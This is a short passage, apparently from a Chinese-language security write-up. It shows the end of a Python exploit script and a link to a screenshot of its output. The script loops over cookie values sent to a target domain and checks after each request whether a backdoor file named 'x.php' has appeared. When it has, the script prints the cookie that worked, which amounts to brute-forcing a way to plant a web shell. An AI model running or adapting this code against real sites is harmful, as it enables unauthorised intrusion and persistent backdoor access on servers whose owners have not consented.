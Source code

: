 ```
        requests.get(domain, cookies=send_cookie, timeout=7)
        if requests.get("{domain}/{backdoor}".format(domain=domain, backdoor='x.php')).status_code == 200:
            print("cookie: \n{cookie}".format(cookie=send_cookie))
            return
        cookie['mac'] += 1


if __name__ == '__main__':
    main()

```

运行结果

![enter image description here](http://drops.javaweb.org/uploads/images/7b86395b3cf4e899b96e802cf92a01fb551af9b3.jpg)